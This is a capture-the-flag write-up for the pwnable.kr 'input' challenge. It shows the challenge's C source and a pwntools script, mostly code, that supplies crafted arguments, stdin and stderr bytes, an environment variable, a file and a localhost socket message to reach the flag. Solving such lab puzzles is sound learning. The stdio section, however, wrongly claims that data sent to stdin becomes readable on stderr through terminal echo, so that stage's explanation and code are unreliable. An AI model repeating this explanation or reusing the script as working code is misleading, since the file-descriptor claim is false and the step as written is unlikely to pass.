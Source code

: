 # input

## Description

input - 4 pt

> Mom? how can I pass my input to a computer program? <br> <br>
> ssh input2@pwnable.kr -p2222 (pw:guest)

## Solution

### Exploit

Let's examine the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
	printf("Welcome to pwnable.kr\n");
	printf("Let's see if you know how to give input to program\n");
	printf("Just give me correct inputs then you will get the flag :)\n");

	// argv
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	

	// stdio
	char buf[4];
	read(0, buf, 4);
	if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
	read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
	printf("Stage 2 clear!\n");
	
	// env
	if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
	printf("Stage 3 clear!\n");

	// file
	FILE* fp = fopen("\x0a", "r");
	if(!fp) return 0;
	if( fread(buf, 4, 1, fp)!=1 ) return 0;
	if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
	fclose(fp);
	printf("Stage 4 clear!\n");	

	// network
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");

	// here's your flag
	system("/bin/cat flag");	
	return 0;
}
```

There are 5 different stages we need to pass in order to get the flag:

### argv  

in the argv stage, we need to give a bunch of (command-line) arguments to the program. First, we need to make sure we give 100 arguments to the program. Since the first argument is allways the program's name - we actually only need to give 99 arguments. Then, the program expects the 65th argument to be `\x00` and the 66th argument to be `\x20\x0a\x0d`.

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['A']*33
p = con.process(['/home/input2/input'] + payload)
```

### stdio

In the stdio stage, we need to send the following bytes to stdin and stderr: `\x00\x0a\x00\xff` and `\x00\x0a\x02\xff`. Passing the first one is easy, but the second one is a bit tricky. At first glance, it looks like we need to figure out how to write to stderr. But, since the program is running on a terminal, stderr is the same as stdout. So, we can just send the bytes to stdin, and the terminal will echo them to stdout (which is the same as stderr).

```python
# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')
```

### env

In the env stage, we need to set the environment variable `\xde\xad\xbe\xef` to `\xca\xfe\xba\xbe`. We can simply update the environment variables before we run the program:

```python
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'})
```

### file

In the file stage, the program opens a file named `\x0a`, reads 4 bytes from it and compares them to `\x00\x00\x00\x00`. We can't just create a file named `\x0a` because we don't have sufficient permissions. So, we need to create the file in a different directory, and then run the program from that directory. We can do this by using the `cwd` argument in `process`.

Also, since we run the program from `/tmp/a`, we need to make sure that the program can find the flag. We can do this by creating a symlink to the flag in `/tmp/a`.

```python
# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

...

p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')
```

### network

In the network stage, the program opens a socket on the port specified in the 67th argument. Then, it waits for a connection, and reads 4 bytes from it. If the bytes are `\xde\xad\xbe\xef`, the program prints the flag. We can use netcat to connect to the port and send the bytes:

```python
...

payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32

...

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')
```

### Putting it all together

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')

# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')

# result
p.interactive()
```

Running the script gives us the flag:

```
Mommy! I learned how to pass various input in Linux :)
```